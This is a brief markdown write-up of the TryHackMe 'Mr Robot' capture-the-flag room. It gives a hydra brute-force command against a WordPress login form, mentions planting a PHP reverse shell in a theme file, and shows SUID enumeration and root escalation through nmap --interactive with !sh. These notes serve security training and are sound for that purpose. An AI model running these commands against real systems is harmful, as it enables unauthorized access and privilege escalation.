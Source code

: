 # Mr Robot 🧭
Names | Details
--------|-----
Source | tryhackme
Level     | medium
Os | linux

**Notes :**




## Gaining Access 😉

- bruteforce
	- wordlist got from dir specified in robots.txt
- wordpress apperance .php file edited
	- pasted php revese shell
	- executed php with url


## Maintaining Access 🥷
- find / -perm +6000 2>/dev/null | grep '/bin/'
	- nmap found
	- GTFO bins search nmap
	- nmap --interactive
		- !sh

## Important commands 🔥
- reverse shell
- `hydra -L user.dic -p test 10.10.12.13 http-post-form "/wp-login.php:log=^user^&pwd=^pwd^:invalid username" -t 30`
- nmap --interactive
	- `!sh`

## Post Exploitation ✴️
- first flag found in directory specified in robots.txt
- User flag : /home/user/user.txt
- Root flag : /root/root.txt
## Tips 💡
- privilege escalation using nmap
- bruteforce in login form with hydra


--------------------------------
**By Nibras Muhammed** 🤓🖥️






